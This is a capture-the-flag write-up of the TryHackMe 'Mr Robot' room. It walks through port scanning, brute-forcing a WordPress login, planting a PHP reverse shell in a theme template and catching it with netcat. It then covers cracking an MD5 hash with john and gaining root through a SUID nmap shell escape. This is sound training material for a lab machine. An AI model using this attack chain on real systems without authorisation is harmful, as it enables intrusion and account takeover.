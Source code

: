 ```yaml
---
title: MrRobot-writeup-THM
date: 2024-01-22 16:00:00
categories: [room, medium]
tags: [linux, privesc]    # TAG names should always be lowercase
image: https://images.unsplash.com/photo-1582266255765-fa5cf1a1d501?q=80&w=2670&auto=format&fit=crop&ixlib=rb-4.0.3&ixid=M3wxMjA3fDB8MHxwaG90by1wYWdlfHx8fGVufDB8fHx8fA%3D%3D
---
```

## My writeup of the TryHackMe room "<a href="https://tryhackme.com/room/mrrobot">Mr Robot CTF</a>"
First of all I am going to do an nmap scan:

```bash
nmap -sC -sV -p- 10.10.81.92

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-22 05:44 EST
Nmap scan report for 10.10.81.92
Host is up (0.055s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache
443/tcp open   ssl/http Apache httpd
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 123.10 seconds
```

Here we can see port 80 and 443 open.

So I am going to expplore the web page.

![Untitled](https://raw.githubusercontent.com/Blueaulo/MrRobot-writeup-THM/main/10acf195-4b40-4784-b6ca-297837c219bf_Export-7dd7dc58-f580-4cb4-9c34-999e6801e5e5/Mr%20Robot%20CTF%200771358915314dfa9159586ad03a2c0a/Untitled.png)

This is the content of the web page.

From this point I just went and enumerate the webpage.

I also found the robots.txt which leads to the first flag.

inside the robots.txt there is also the location to a dictionary:

```bash
sort Downloads/fsocity.dic | uniq > uniq.txt
```

I ran this command because there were repeated words.

So, now I just need the username.

I tried with wpscan but I got nothing, So I tried to FUZZ the username with the sictionary, which if it is in the wordlist, should get a different response size, because wordpress tells you if is just the password that is wrong.

 And that’s exactly what happened:

![pg](https://raw.githubusercontent.com/Blueaulo/MrRobot-writeup-THM/main/10acf195-4b40-4784-b6ca-297837c219bf_Export-7dd7dc58-f580-4cb4-9c34-999e6801e5e5/Mr%20Robot%20CTF%200771358915314dfa9159586ad03a2c0a/Untitled%201.png)

So, now I think of running the fuzzer again, with the username Elliot and with the dictionary as a password.

And we got the password:

 

![Untitled](https://raw.githubusercontent.com/Blueaulo/MrRobot-writeup-THM/main/10acf195-4b40-4784-b6ca-297837c219bf_Export-7dd7dc58-f580-4cb4-9c34-999e6801e5e5/Mr%20Robot%20CTF%200771358915314dfa9159586ad03a2c0a/pg.png)

And I got in, from there I could create a reverse shell, but first let’s explore the dashboard.

In the Users section wee see that there is another User:

![Untitled](https://raw.githubusercontent.com/Blueaulo/MrRobot-writeup-THM/main/10acf195-4b40-4784-b6ca-297837c219bf_Export-7dd7dc58-f580-4cb4-9c34-999e6801e5e5/Mr%20Robot%20CTF%200771358915314dfa9159586ad03a2c0a/Untitled%203.png)

Maybe it can be helpful later.

We can create a reverse shell just by copy and paste the pentestermonkey reverse shell, in the 404 template.

![Untitled](https://raw.githubusercontent.com/Blueaulo/MrRobot-writeup-THM/main/10acf195-4b40-4784-b6ca-297837c219bf_Export-7dd7dc58-f580-4cb4-9c34-999e6801e5e5/Mr%20Robot%20CTF%200771358915314dfa9159586ad03a2c0a/Untitled%204.png)

Then start the listener in the machine and we are in:

```bash
nc -lvnp 4444  
listening on [any] 4444 ...
connect to [10.11.65.91] from (UNKNOWN) [10.10.81.92] 50199
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 12:10:26 up  1:29,  0 users,  load average: 0.00, 0.88, 2.66
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
daemon
```

We have 2 users:

```bash
cat /etc/passwd | grep "home"

syslog:x:101:104::/home/syslog:/bin/false
mysql:x:1001:1001::/home/mysql:
varnish:x:999:999::/home/varnish:
robot:x:1002:1002::/home/robot:
```

We can’t cd into varnish, but we can cd in robot.

in his home we have 2 files:

```bash
ls -la
total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
```

As we can see the first one can be opened only by robot, but the second one can be read by anyone:

```bash
cat password.raw-md5
robot:<redacted>
```

And looks like we got the md5 hash of robot

And we can simply brute force it:

```bash
john --format=Raw-md5 pass.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 AVX 4x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
<redacted> (robot)     
1g 0:00:00:00 DONE (2024-01-22 07:19) 100.0g/s 4051Kp/s 4051Kc/s 4051KC/s bonjour1..123092
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
```

Using that we can use the command “su” to authenticate ourself as robot:

```bash
su robot
Password: <redacted>
```

```bash
whoami
robot
```

After doing some enumeration, I noticed that we got a strange SUID:

 

```bash
find / -type f -perm -04000 -ls 2>/dev/null

 15068   44 -rwsr-xr-x   1 root     root        44168 May  7  2014 /bin/ping
 15093   68 -rwsr-xr-x   1 root     root        69120 Feb 12  2015 /bin/umount
 15060   96 -rwsr-xr-x   1 root     root        94792 Feb 12  2015 /bin/mount
 15069   44 -rwsr-xr-x   1 root     root        44680 May  7  2014 /bin/ping6
 15085   40 -rwsr-xr-x   1 root     root        36936 Feb 17  2014 /bin/su
 36231   48 -rwsr-xr-x   1 root     root        47032 Feb 17  2014 /usr/bin/passwd
 36216   32 -rwsr-xr-x   1 root     root        32464 Feb 17  2014 /usr/bin/newgrp
 36041   44 -rwsr-xr-x   1 root     root        41336 Feb 17  2014 /usr/bin/chsh
 36038   48 -rwsr-xr-x   1 root     root        46424 Feb 17  2014 /usr/bin/chfn
 36148   68 -rwsr-xr-x   1 root     root        68152 Feb 17  2014 /usr/bin/gpasswd
 36349  152 -rwsr-xr-x   1 root     root       155008 Mar 12  2015 /usr/bin/sudo
 34835  496 -rwsr-xr-x   1 root     root       504736 Nov 13  2015 /usr/local/bin/nmap
 38768  432 -rwsr-xr-x   1 root     root       440416 May 12  2014 /usr/lib/openssh/ssh-keysign
 38526   12 -rwsr-xr-x   1 root     root        10240 Feb 25  2014 /usr/lib/eject/dmcrypt-get-device
395259   12 -r-sr-xr-x   1 root     root         9532 Nov 13  2015 /usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
395286   16 -r-sr-xr-x   1 root     root        14320 Nov 13  2015 /usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
 38505   12 -rwsr-xr-x   1 root     root        10344 Feb 25  2015 /usr/lib/pt_chown
```

Nmap can be used in interactive mode:

```bash
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
# whoami
root
```

And after that we just want to go in the /root directory and retrieve the flag.